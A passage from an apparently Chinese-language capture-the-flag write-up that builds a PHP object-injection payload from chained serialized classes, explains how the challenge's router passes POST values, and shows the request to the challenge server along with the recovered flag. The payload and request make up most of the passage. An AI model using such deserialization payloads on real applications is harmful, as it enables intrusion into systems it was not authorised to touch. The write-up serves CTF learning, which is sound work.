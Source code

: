 得到payload如下：

```
O:17:"Index\Helper\Test":2:{s:9:"user_uuid";s:36:"5d71b644-ee63-4b11-9c13-da3c4ac35b8d";s:2:"fl";O:17:"Index\Helper\Flag":1:{s:3:"sql";O:16:"Index\Helper\SQL":2:{s:3:"dbc";N;s:3:"pdo";N;}}}
```

## POST数据

可见Justtry.php中的try方法传入的参数就是我们要提交的，但是参数是通过什么名字提交给函数的呢？这里我们源码中的Router.php第126行

```php
$params = array();
if (strtoupper($method)=='POST') {
    foreach ($_POST as $key => $val) {
        if ($key!='r') {
            $params[]=urldecode($val);
        }
    }
```

可见所有参数被存到一个数组里，并且提交的参数名没有存储，所以根据router，POST提交如下数据，即可获得flag

```url
http://116.85.48.105:5033/5d71b644-ee63-4b11-9c13-da3c4ac35b8d/justtry/try/

A=O:17:"Index\Helper\Test":2:{s:9:"user_uuid";s:36:"5d71b644-ee63-4b11-9c13-da3c4ac35b8d";s:2:"fl";O:17:"Index\Helper\Flag":1:{s:3:"sql";O:16:"Index\Helper\SQL":2:{s:3:"dbc";N;s:3:"pdo";N;}}}
```

```
DDCTF{5ed110a54246a5cd7d755185b4d89f74fb2530084bf93d8000f2170899d29b22}
```